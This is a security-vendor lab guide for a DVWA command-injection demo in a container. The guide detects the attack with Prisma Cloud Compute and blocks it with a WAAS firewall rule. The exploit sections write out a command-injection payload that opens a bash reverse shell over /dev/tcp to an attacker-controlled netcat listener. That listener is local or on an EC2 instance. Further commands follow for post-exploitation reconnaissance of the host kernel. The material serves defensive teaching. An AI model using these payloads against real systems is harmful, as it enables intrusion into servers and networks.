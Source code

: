 ## Command Injection Demo with DVWA App

written by Kyle Butler

Requirements:
* Prisma Cloud Compute edition deployed; see Deployment Guide here: [Minikube Prisma Cloud Compute Partner VM Lab Deployment Instructions](Prisma_Cloud_Compute_Minikube_Lab.md)
* Container defender deployed in environment where you'll be runnning the DVWA app. 
* [Docker Installed](https://www.digitalocean.com/community/tutorials/how-to-install-and-use-docker-on-ubuntu-20-04)
* Netcat installed (comes with ubuntu and many other linux distros) for macOS `brew install netcat`

### Intital Set-up

* Retrieve the DVWA webapp `docker pull vulnerables/web-dvwa`
* Tag the image you pull down `docker tag vulnerables/web-dvwa:latest dvwa:1`
* Create bridged docker network `docker network create --driver bridge dvwa-net`
* Run the container and map port 80 on the host machine to port 80 on the container. `docker run -dit -p 80:80 --name dvwa --network dvwa-net dvwa:1`
* Explain as you're running this in terminal that the important part of this command to understand is that `-p 80:80` maps the host machines port to the container port. This is important to highlight during your demonstration, because people often misunderstand how networking within a container works. We'll demonstrate how we can reverse shell into the container using a different port, from anywhere. 
* Open up a web browser and go to the dvwa app. `http://localhost/setup.php`
* reset the database then login in. username: `admin` password: `password`

### Run the exploit

* On the left hand side of the DVWA menu go to the command injection tab. 
* Explain what command injection is in this scenario. Ultimately, command injection is an attack where a malicious actor attempts to manipulate the user input so that code is executed on the shell of the container/server in a different way than the developer intended. 
* In the DVWA app, under the command injection section the developer's intention is for function to run a ping command 4 times on the ip address submitted by the user. 

### (Option 1) Locally from vm to laptop terminal ---easiest/recommended way

* To run the attack, open a terminal window on your local (not the VM) machine. Explain this is the attackers terminal. In terminal enter (linux devices) `nc -lvp 5678` (macOS) `netcat -lvp 5678`. This will open a listening port on port 5678. Nothing too exiting to see yet. 
* Then retrieve the Internal IP address of the local machine.
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_INTERNAL_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -lvp 5678` you should now have a reverse shell into the container. 

### (Option 2) Externally from vm to External EC2 Instance

* Create a ubuntu EC2 instance and assign it a public IP address. 
* On the EC2 dashboard page in the AWS Console write down the public IP address assigned to the instance.
* Edit the security group to allow inbound tcp communication over port 5678.
* SSH to EC2 
* `sudo nano /etc/hosts` add `0.0.0.0 localhost` to the top line of the hosts file. `ctl + x` then `y` then `enter`
* In terminal type `nc -l -p 5678`
* Go back to the DVWA app and enter this command on the command injection screen. `127.0.0.1 & bash -c 'bash -i >& /dev/tcp/<YOUR_EC2_PUBLIC_IP_ADDRESS>/5678 0>&1'`
* Check the terminal window where you entered `nc -l -p 5678` you should now have a reverse shell into the container. 

### Show the implications of an attack like this

* Now you can demonstrate to your audience the difference between a vm and a container. 
* Because a container shares the same kernel as the host device it's running on an attacker can gain information which can used to gain further access into the network. 
* Run the command `whoami` to show that you're running as `www-app`. 
* `cd` through the web app and `ls` as you step through the directories to show the ability to perform directory traversal and see all the content of the web app. 
* Once you're at the root directory, run the following commands to reveal what information is being fed to the shared kernel. 
* `uname -a` provides the processor architecture, the system hostname and the version of the kernel running on the host machine. If you're able to determine that it's an vulnerable/unpatched kernel this information can be used to gain further access and information. 
* `cat /proc/cmdline` shows the kernel parameters passed during boot
* `cat /proc/cpuinfo` shows the type of processor the host machine is running, including the amount of CPUs present
* `cat /proc/version` provides information which pertains to the version of Linux kernel used in the host machine machines distro. 
* Link to linux kernel vulnerabilities from the CVE database [here](https://www.cvedetails.com/vulnerability-list/vendor_id-33/product_id-47/cvssscoremin-7/cvssscoremax-7.99/Linux-Linux-Kernel.html)

### See how Prisma Cloud Defenders responded to the incident. 

* Log into the Prisma Cloud Compute console
* Go to Monitor > Events > container audits
* There should be an incident reported as a reverse shell. 
* Click the event and then click forensic icon on the incident. 
* Show how the incident is tracked in near real time. 
* Scroll through the event details and show the commands you ran earlier with your reverse shell. 
* Point out that the IP Address of attacker was logged. This information could be very useful for incident response using Prisma Cloud Enterprise edition. (RQL Network from.....)


### Enable the WAAS to block this behavior

In the Prisma Compute Console:

* Step 1:(Enterprise Edition ONLY) Go to Prisma Console > Compute > Defend > WAAS
  * Step 1a:(Compute Edition) Go to Defend > WAAS
* Step 2: Click ‘Add Rule’
* Step 3: Rule Name: Command Injection Defense
* Step 4: Then click scope
* Step 5: Check boxes of all images that have dvwa in them.
  * Step 5a: If there are none, click 'Add Collection', type in a name, type in 'dvwa' in the image field, select the image(s), and click 'Save'
  * Step 5b: Ensure you have the 'dvwa' boxes checked and click 'Select collections'
* Step 6: Click ‘Add New App’
* Step 7: On the next pop-up click the ‘+ Add Endpoint’ 
* Step 8: Enter 80 for App port (internal port) then hit ‘Create’ 
* Step 9: Click the ‘App Firewall' tab and under OS Command Injection set it to Prevent. 
* Step 10: Click ‘Save’


### Attempt attack again. 

* Log out of the dvwa app and close your reverse shell session by typing `exit` in the "attackers" shell. 
* Attempt to do the attack again on the web app and you should see a blocked warning. Note that the IP address of the attacker is logged. 
* The event can be viewed under Monitor > Events > WAAS for containers.
